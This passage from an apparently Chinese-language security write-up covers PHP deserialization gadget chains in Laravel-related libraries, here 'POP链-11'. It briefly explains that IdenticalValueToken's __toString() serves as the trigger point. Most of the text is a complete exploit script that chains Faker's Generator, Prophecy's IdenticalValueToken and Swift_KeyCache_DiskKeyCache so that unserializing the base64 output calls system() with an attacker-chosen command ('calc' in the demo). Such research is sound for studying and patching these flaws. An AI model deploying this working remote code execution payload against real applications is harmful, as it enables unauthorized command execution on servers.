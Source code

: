 ![undefined](https://p0.ssl.qhimg.com/t01c318e6f5ac9a107c.png "undefined")

## POP链-11
起始点和终点的利用链和`POP链-10`一样，将`__toString()`的触发点变一下，跟进`src/Prophecy/Argument/Token/IdenticalValueToken.php`中的`__toString()`方法，这里`$this->string`、`$this->util`和`$this->value`均可控

![undefined](https://p3.ssl.qhimg.com/t0114475595f218992c.png "undefined")

### exp
```php
<?php 
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
    use Faker\Generator;
    class IdenticalValueToken {
        private $string;
        private $value;
        private $util;
        public function __construct($payload) {
            $this->name = null;
            $this->util = new Generator();;
            $this->value = $payload;
        }
    }
}

namespace {
    use Prophecy\Argument\Token\IdenticalValueToken;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new IdenticalValueToken($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP链利用流程图

![undefined](https://p0.ssl.qhimg.com/t01b6ad60364791668b.png "undefined")
